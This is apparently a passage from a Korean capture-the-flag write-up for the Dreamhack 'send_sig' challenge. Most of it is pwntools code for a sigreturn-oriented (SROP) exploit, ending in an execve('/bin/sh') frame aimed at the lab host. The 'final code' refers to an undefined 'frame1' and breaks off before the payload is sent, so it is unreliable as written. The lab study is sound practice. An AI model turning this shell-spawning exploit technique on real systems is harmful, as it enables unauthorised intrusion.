 ```python
p.sendline(rop3)

# write(1, bss+0x500, 0x40)
# syscall number : １
frame4 = SigreturnFrame()
frame4.rax = 1
frame4.rsi = bss+0x500
frame4.rdi = 1
frame4.rdx = 0x40
frame4.rip = syscall
frame4.rsp = bss + 0x1000

rop4 = p64(pop_rax)
rop4 += p64(15)
rop4 += bytes(frame4)

p.sendline(rop4)
p.interactive()
```

분명 맞다 생각했는데 왜 안되는지 모르겠다.   
그래서 힌트를 조금 얻었는데,    

execve() 를 써서 한번에 쉘을 얻는다.   

<br>


<img width="1201" height="233" alt="image (53)" src="https://github.com/user-attachments/assets/3a505f4a-fcf0-4a93-bfc3-0502b075bdd4" />

보니까 이렇게 send_sig 실행 파일 안에 /bin/sh 가 있더라.  

너무 여러 단계로 쪼개서 생각했나보다.  
바로 쉘을 얻으러 가보자.     

<br>

**최종 코드**

```python
from pwn import *

context.arch = 'x86_64'

p = remote('host8.dreamhack.games', 8443)
e = ELF('./send_sig')

pop_rax = 0x4010ae
syscall = 0x4010b0
binsh = 0x402000

# execve('/bin/sh', 0, 0)
# syscall number : 0x3b
frame = SigreturnFrame()
frame.rax = 0x3b
frame.rsi = 0
frame.rdx = 0
frame.rdi = binsh
frame.rip = syscall

payload = b'A' * 16
payload += p64(pop_rax)
payload += p64(15)
payload += p64(syscall)
payload += bytes(frame1)

p.recvuntil(b'Signal:')
```